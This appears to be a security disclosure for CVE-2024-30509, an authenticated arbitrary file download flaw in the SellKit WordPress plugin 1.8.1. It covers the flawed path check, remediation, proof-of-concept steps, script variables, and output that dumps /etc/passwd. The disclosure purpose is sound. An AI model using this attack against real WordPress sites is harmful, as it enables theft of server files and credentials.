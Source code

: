 # Post Report Info

- Link: https://patchstack.com/database/vulnerability/sellkit/wordpress-sellkit-plugin-1-8-1-arbitrary-file-download-vulnerability
- CVE: 2024-30509

# SellKit Arbitrary File Download

The SellKit WordPress Plugin is vulnerable to subscriber level authenticated arbitrary file download. It would work unauthenticated but a typo in the code prevents it from functioning.

## Affected Plugin

Title: SellKit – Funnel builder and checkout optimizer for WooCommerce to sell more, faster
Active installations: 10k
Version: 1.8.1
Slug: sellkit
Link: https://wordpress.org/plugins/sellkit/
CVSS 6.5 https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N&version=3.1

## Root Cause

There is some code in the `download-redirect.php` that is designed to restrict downloads to only those in the upload dir, but it does not work. 

```php
// Restrict the download to WP upload directory.
if ( strpos( $file, $upload_dir['basedir'] ) > 0 ) {
    wp_die( '<script>window.close();</script>' );
}
```

## Impact

Arbitrary files can be downloaded from the server totally compromising it's confidentiality and potentially enabling further attacks through leaking of access credentials such as those stored in `wp-config.php`

## Remediation

- Restrict file downloads to the uploads dir
- Consider restricting download types to an allowed set of types
- There is likely functionality in WordPress core that could be used to do this rather than writing your own
- 
## Proof of Concept

1. Install the WooCommerce, Elementor and SellKit plugins
2. Create a post with a basic sell kit opt-in form (simple form with name/email)
3. Create an onsubmit action that downloads a file on completion
4. Modify the 4 variables in the PoC script `sellkit.py` and run it. The user/pass are of a subscriber level user and the post is the link to the post you created above with the form in.

```python
USER = 'user'
PASSWORD = 'password'
TARGET = 'http://localhost:8080'
POST = 'elementor-283'
```

5. The script will find the post_id, form_id and nonce from that page and use these values to gain access to a different nonce which can then be used to download arbitrary files:

```
❯ python3 sellkit.py
[+] Login Successful
[+] Post ID: 283
[+] Form ID: cf9b07b
[+] Nonce: f054ed768d
[+] Download URL: http://localhost:8080/wp-admin/admin-post.php?action=sellkit_download_file&file=L3Zhci93d3cvaHRtbC93cC1jb250ZW50L3VwbG9hZHMvMjAyNC8wMS90ZXN0X182NWIyZGFmZWI2ZGYyLmpwZw=&_wpnonce=a1badc8e8e
[+] Download Nonce: a1badc8e8e
handle download file...root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```